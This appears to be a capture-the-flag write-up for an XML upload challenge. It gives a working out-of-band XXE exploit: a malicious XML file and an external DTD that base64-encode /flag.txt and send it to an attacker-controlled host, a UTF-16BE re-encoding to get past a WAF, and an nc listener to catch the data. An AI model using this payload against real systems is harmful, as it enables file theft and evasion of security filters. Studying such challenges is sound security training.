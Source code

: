 Create xxe.xml with content:
```xml
<?xml version="1.0"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://IP.IP.IP.IP/dtd.xml">
%sp;
%doit;
]>
<users><user>
<username>ivy</username>
<password>passwd1</password>
<r>&exfil;</r>
<name>name</name>
<email>mail</email>
<group>GRP</group>
</user></users>
```

Convert to UTF-16BE to bypass WAF:
```bash
$ iconv -f US-ASCII -t UTF-16BE /tmp/q.xml > /tmp/qq.xml
```

On server host file `dtd.xml` with content:
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % doit "<!ENTITY exfil SYSTEM 'http://IP.IP.IP.IP:8000/dtd.xml?%data;'>">
```

Start `nc -lvp 8000` and wait.

Upload `xxe.xml`.

???

Profit:
```bash
$ echo "QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQQpBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQQpmbGFne24wd19pJ21fc0BkX2N1el95MHVfZzN0X3RoM19mbDRnX2J1dF9jMG5ncjR0c30KQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUE=" | base64 -d

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
flag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
